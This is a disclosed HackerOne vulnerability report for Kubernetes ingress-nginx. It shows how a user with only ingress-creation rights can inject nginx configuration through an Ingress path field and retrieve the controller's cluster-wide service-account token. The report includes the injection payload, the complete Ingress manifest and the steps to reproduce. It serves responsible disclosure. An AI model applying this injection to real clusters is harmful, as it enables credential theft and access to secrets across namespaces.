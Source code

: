 # Ingress-nginx path allows retrieval of ingress-nginx serviceaccount token

## Report Details
- **Report ID**: 1382919
- **URL**: https://hackerone.com/reports/1382919
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-10-27T10:37:06.918Z
- **Disclosed**: 2022-08-06T07:14:09.096Z

## Reporter
- **Username**: gaffy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
A user with the permissions to create an ingress resource can obtain the ingress-nginx service account token which can list secrets is all namespaces (cluster wide).

## Kubernetes Version:
1.20 (should work on (1.21 as well)

## Component Version:
nginx ingress controller v1.0.4

## Steps To Reproduce:
I deployed the latest ingress-controller (v1.0.4).
I used a user (gaf_test) that has the permissions to get, create and update ingress resources
(the “get” permissions is only to allow kubectl to view the newly created resource).

ingress-creator-role.yaml
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: ingress-creator
  namespace: default
rules:
- apiGroups: ["networking.k8s.io"]
  resources: ["ingresses"]
  verbs: ["get", "create", "update"]
```

ingress-creator-role-binding.yaml
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: gaf_test-ingress-creator-binding
  namespace: default
subjects:
- kind: User
  name: gaf_test
  apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: Role
  name: ingress-creator
  apiGroup: rbac.authorization.k8s.io
```

This user (gaf_user) cannot list secrets at all.
{F1495367}
 
Use this user (gaf_user) to create a new ingress resource in the default namespace.

ingress.yaml
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: gaf-ingress
  annotations:
    kubernetes.io/ingress.class: "nginx"
spec:
  rules:
  -  http:
      paths:
        - path: /gaf{alias /var/run/secrets/kubernetes.io/serviceaccount/;}location ~* ^/aaa
          pathType: Prefix
          backend:
            service:
              name: some-service
              port:
                number: 5678
```
```
kubectl apply -f ingress.yaml
```
{F1495369}
 

Access to nginx ingress loadbalancer to /gaf/token path.

https://<host>/gaf/token

 {F1495370}

Decode the token to see it belongs to the ingress-nginx
{F1495372}
 
The nginx-ingress service account is bound to the nginx-ingress cluser role that can list secrets in all namespaces.

## The Root Cause
When a user creates an ingress resource, the new configuration is updated in the /etc/nginx/nginx.conf file in the ingress-nginx-controller pod located in the nginx-ingress namespace.
I caused a “config file injection” using the following payload as path:

**/gaf{alias /var/run/secrets/kubernetes.io/serviceaccount/;}location ~* ^/aaa**
The payload above creates the following configuration for nginx:

/etc/nginx/nginx.conf

{F1495371} 

This is the relevant part from the configuration which creates a new route to /gaf path and uses an alias (http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)
that maps to /var/run/secrets/kubernetes.io/serviceaccount/ directory on the ingress-nginx-controller pod.

## Impact

A user with the permissions to create an ingress resource can obtain the ingress-nginx service account token which can list secrets is all namespaces (cluster wide).

## Attachments
- get-secrets-test.png
- apply.png
- token-bro.png
- injected-nginx-conf.png
- ingress-nginx-serviceaccount-token.png
